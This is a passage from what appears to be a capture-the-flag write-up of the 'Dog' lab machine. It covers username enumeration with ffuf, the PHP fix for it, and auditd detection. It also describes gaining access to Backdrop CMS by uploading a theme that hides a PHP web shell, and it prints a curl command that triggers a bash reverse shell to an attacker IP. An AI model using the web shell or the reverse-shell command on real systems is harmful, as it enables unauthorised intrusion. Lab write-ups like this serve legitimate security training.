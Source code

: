 __Pre__ PHP code update
```bash
ffuf -request req -request-proto http -w test_usernames.txt
```

__Post__ PHP code update
```bash
ffuf -request req -request-proto http -w test_usernames.txt -fr 'Sorry, unrecognized username.'
```

![image](https://i.postimg.cc/nz7t8Zxb/dog-ffuf-usernames.png){: width='1500' height='295'}

In the "Pre" output I have the Word count highlighted that matches with valid usernames, whereas the "Post" output all have the same Word counts. The Duration values at first glance don't appear to show a pattern within each test case, this could be analyzed across larger samples more thoroughly to see if a pattern emerges. In either case, aside from the `form_set_error` changes that were done specifically for this machine's implementation it would be ideal to also mimic the same changes for the other cases in the `user.module` file (i.e., if email addresses are used for the username) as well. 

#### Initial Access (Exploit Backdrop Upload Feature)

Once logged into the Backdrop application with `tiffany`'s account the navigation bar referenced admin functionality and a quick search for exploits initially led me to [EBD-ID: 52021 - Backdrop CMS 1.27.1 - Authenticated RCE](https://www.exploit-db.com/exploits/52021), the machine's version matched up but I was receiving an "Unable to create directory..." error when trying to do a manual installation. Later I came across this [Backdrop CMS 1.22.0 — Unrestricted File Upload (Themes)](https://grimthereaperteam.medium.com/backdrop-cms-1-22-0-unrestricted-file-upload-themes-ad42a599561c) article that describes the same steps manually instead with a Theme upload. From [Backdrops's Theme page](https://backdropcms.org/themes) I downloaded the first theme, extracted it and put a simple `shell.php` web shell in that directory. After re-archiving the folder as a `.tgz` and uploading, the web shell was accessible and allowed for a reverse shell connection under the `www-data` account:

![image](https://i.postimg.cc/j2fqh9vv/dog-web-shell.png){: width='802' height='75'}

```bash
curl "$IP/themes/shaperrific/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.120%2F443%200%3E%261%22"
```

Checking `/etc/passwd` I could see two interesting accounts, `jobert` and `johncusak` and there was also a `/backdrop_tool` directory which comes into play in the Privilege Escalation section. I spent some time looking for sensitive files and enumerated the database but was not uncovering anything useful. Checking for password re-use again though validated the originally discovered password also paired with the `johncusak` account and allowed for SSH access.

> __Detect:__ Looking for related malicious activity seems more appropriate given that legitimate Themes for the application use PHP files. For this I used `auditd` to look for process executions from the `www-data` account's effective UID 33:
{: .prompt-tip}

This process took a few steps due to the Dog machine not having an Internet connection to install `auditd` with `apt`. I used a socks proxy with SSH so my Kali machine's connection could be utilized. This way `apt` could be used on the victim machine, which seemed to be the preferred install method.
